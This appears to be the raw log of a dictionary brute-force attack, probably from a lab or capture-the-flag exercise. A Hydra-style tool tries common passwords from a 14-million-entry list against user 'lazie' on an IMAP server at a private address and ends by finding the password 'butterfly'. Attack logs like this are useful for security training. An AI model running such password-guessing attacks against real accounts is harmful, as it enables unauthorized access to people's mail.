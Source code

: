 ```
[VERBOSE] CAPABILITY: * CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT
1 OK CAPABILITY completed
[VERBOSE] using IMAP CLEAR LOGIN mechanism
[VERBOSE] CAPABILITY: * CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT
1 OK CAPABILITY completed
[VERBOSE] using IMAP CLEAR LOGIN mechanism
[VERBOSE] CAPABILITY: * CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT
1 OK CAPABILITY completed
[VERBOSE] using IMAP CLEAR LOGIN mechanism
[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "654321" - 17 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "michael" - 18 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "ashley" - 19 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "qwerty" - 20 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "111111" - 21 of 14344399 [child 8] (0/0)
[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "iloveu" - 22 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "000000" - 23 of 14344399 [child 9] (0/0)
[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "michelle" - 24 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "tigger" - 25 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "sunshine" - 26 of 14344399 [child 12] (0/0)
[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ERROR] 2 NO Login failed.

[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "chocolate" - 27 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "password1" - 28 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "soccer" - 29 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "anthony" - 30 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "friends" - 31 of 14344399 [child 15] (0/0)
[ERROR] 2 NO Login failed.

[ATTEMPT] target 10.10.30.103 - login "lazie" - pass "butterfly" - 32 of 14344399 [child 1] (0/0)
[143][imap] host: 10.10.30.103   login: lazie   password: butterfly
[STATUS] attack finished for 10.10.30.103 (waiting for children to complete tests)
[ERROR] 3 NO Login failed.
```